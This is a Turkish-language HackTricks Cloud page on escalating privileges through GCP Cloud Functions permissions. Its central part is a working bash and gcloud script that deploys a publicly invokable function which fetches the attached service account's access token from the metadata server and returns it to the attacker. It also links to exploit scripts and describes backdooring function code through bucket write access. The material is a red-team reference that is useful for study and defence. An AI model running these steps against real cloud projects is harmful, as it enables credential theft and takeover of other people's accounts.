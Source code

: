 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions hakkında daha fazla bilgi:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **keyfi (kötü niyetli) kodla yeni bir Cloud Function oluşturabilir ve ona bir Service Account atayabilir**. Ardından, yetkileri artırmak için metadata'dan Service Account token'ını sızdırabilir.\
Fonksiyonu tetiklemek için bazı yetkiler gerekebilir.

Bu yöntem için istismar betikleri [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) ve [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) bulunabilir ve önceden oluşturulmuş .zip dosyası [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) bulunabilir.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan, **bir Fonksiyonun kodunu değiştirebilir ve hatta ekli olan hizmet hesabını değiştirebilir** ve token'ı dışarı sızdırma amacı güdebilir.

{% hint style="danger" %}
Cloud functions dağıtmak için, varsayılan compute service account veya imajı oluşturmak için kullanılan service account üzerinde actAs izinlerine de ihtiyacınız olacak.
{% endhint %}

Ekstra yetkiler, 1. versiyon cloudfunctions için `.call` izni veya fonksiyonu tetiklemek için `role/run.invoker` rolü gibi gerekebilir.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Eğer `Permission 'run.services.setIamPolicy' denied on resource...` hatasını alıyorsanız, bu `--allow-unauthenticated` parametresini kullandığınız ve yeterli izinlerinizin olmadığı anlamına gelir.
{% endhint %}

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) bulunabilir.

### `cloudfunctions.functions.sourceCodeSet`

Bu izinle, bir **dosyayı bir fonksiyon bucket'ına yüklemek için imzalı bir URL alabilirsiniz (ancak fonksiyonun kodu değişmeyecek, yine de güncellemeniz gerekecek)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Saldırganlar açısından bu iznin ne kadar faydalı olduğundan emin değilim, ama bilmekte fayda var.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Önceki **`.update`** veya **`.create`** ayrıcalıklarından herhangi birini kendinize vererek yükseltme yapabilirsiniz.

### `cloudfunctions.functions.update`

Sadece **`cloudfunctions`** izinlerine sahip olmak, **`iam.serviceAccounts.actAs`** olmadan fonksiyonu güncelleyemezsiniz, BU YÜKSELTME İÇİN GEÇERLİ DEĞİLDİR.

### Bucket üzerinde Okuma & Yazma Erişimi

Bucket üzerinde okuma ve yazma erişiminiz varsa, kodda değişiklikleri izleyebilir ve bucket'ta bir **güncelleme olduğunda yeni kodunuzu kendi kodunuzla güncelleyebilirsiniz**; böylece Cloud Function'ın yeni versiyonu, gönderilen arka kapılı kodla çalıştırılacaktır.

Saldırı hakkında daha fazla bilgi edinebilirsiniz:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Ancak, bunu üçüncü taraf Cloud Functions'ı önceden tehlikeye atmak için kullanamazsınız çünkü bucket'ı kendi hesabınızda oluşturup, dış projenin üzerine yazabilmesi için halka açık izinler verirseniz, aşağıdaki hatayı alırsınız:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Ancak, bu DoS saldırıları için kullanılabilir.
{% endhint %}

### Artifact Registry üzerinde Okuma & Yazma Erişimi

Bir Cloud Function oluşturulduğunda, projenin Artifact Registry'sine yeni bir docker imajı yüklenir. İmajı yeni bir imajla değiştirmeyi denedim ve mevcut imajı (ve `cache` imajını) silmeyi denedim ama hiçbir şey değişmedi, cloud function çalışmaya devam etti. Bu nedenle, belki de **bucket ile bir Yarış Koşulu saldırısını kötüye kullanmak mümkün olabilir** ama **sadece saklanan imajı değiştirmek Cloud Function'ı tehlikeye atmak için yeterli değildir**.

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
